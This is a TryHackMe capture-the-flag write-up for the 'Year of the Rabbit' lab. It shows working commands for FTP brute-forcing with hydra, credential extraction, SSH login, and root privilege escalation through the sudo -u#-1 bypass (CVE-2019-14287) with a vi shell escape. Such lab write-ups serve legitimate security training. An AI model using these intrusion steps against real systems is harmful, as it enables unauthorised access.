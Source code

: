 # Year of the Rabbit - TryHackMe Writeup
*Author: Koushiq Murad*


## Overview  
**Year of the Rabbit** is categorized as an *Easy* room, but it packs several clever puzzles: steganography, FTP brute-forcing, Brainfuck decoding, and a subtle privilege escalation via a `sudo` vulnerability (CVE-2019-14287).

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.201.20.145
```
**Results**:
- Port 21 – vsftpd 3.0.2 (FTP)  
- Port 22 – OpenSSH 6.7p1 (SSH)  
- Port 80 – Apache 2.4.10 (HTTP)  

---

## 2. Web Enumeration & Steganography

### Finding Hidden Directories
Use Gobuster to discover `/assets/` directory:
```bash
gobuster dir -u http://10.201.20.145 -w /usr/share/wordlists/dirb/common.txt
```

### Inspect the Stylesheet
`/assets/style.css` revealed a hint:
```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

### JavaScript Redirect Trick
Accessing `/sup3r_s3cr3t_fl4g.php` redirects me via JavaScript—disable JS or view headers to capture:
```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```
Visiting the hidden directory reveals `Hot_Babe.png`.

---

## 3. FTP Access via Hidden Credentials

### Extracting FTP Credentials
Use:
```bash
strings Hot_Babe.png
```
This revealed:
```
ftpuser
...a long list of possible passwords...
```

### Brute-Force FTP with Hydra
```bash
hydra -l ftpuser -P passwords.txt ftp://10.201.20.145
```
I crack the password quickly.  

### Download `Eli’s_Creds.txt`
Log in with FTP and retrieve the file—its content is Brainfuck code.

---

## 4. SSH Access via Brainfuck Decoding

### Decode Brainfuck
Use an online interpreter (or local tool) to decode the Brainfuck string in `Eli’s_Creds.txt`, yielding:
```
Username: eli  
Password: <found password>
```

### SSH into the Box
```bash
ssh eli@10.201.20.145
```
Upon login, see a message:
```
Message from Root to Gwendoline:
“...Check our leet s3cr3t hiding place...”
```

---

## 5. Switching to Gwendoline

### Discover Hidden File
Search for “s3cr3t” files:
```bash
find / -iname '*s3cr3t*' 2>/dev/null
```
Inside, I find:
```
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
It reveals Gwendoline’s password.  

### Switch User & Capture user.txt
```bash
su gwendoline
cd ~
cat user.txt
```

---

## 6. Privilege Escalation – Root via `sudo(vi)` Trick

### Check sudo privileges
```bash
sudo -l
```
Shows:  
```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

### Exploit `CVE-2019-14287`
By using `-u#-1`, we bypass the `!root` restriction:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Once `vi` opens, spawn a shell:
```
:!/bin/bash
```
– now a root shell.  

---

## 7. Capture Root Flag
```bash
cd /root
cat root.txt
```

---

##  Flags
- **User flag (Gwendoline):** `THM{...}`  
- **Root flag:** `THM{...}`  

*(Actual flags omitted for spoiler safety.)*

---

##  Key Lessons Learned
- CSS files may contain hidden clues—always inspect them.  
- `strings` is a powerful first step for extracting embedded credentials.  
- Brainfuck is a rare but interesting encoding; online interpreters help.  
- `sudo -u#-1` is a sneaky bypass for misconfigured `NOPASSWD` sudo privileges.

---
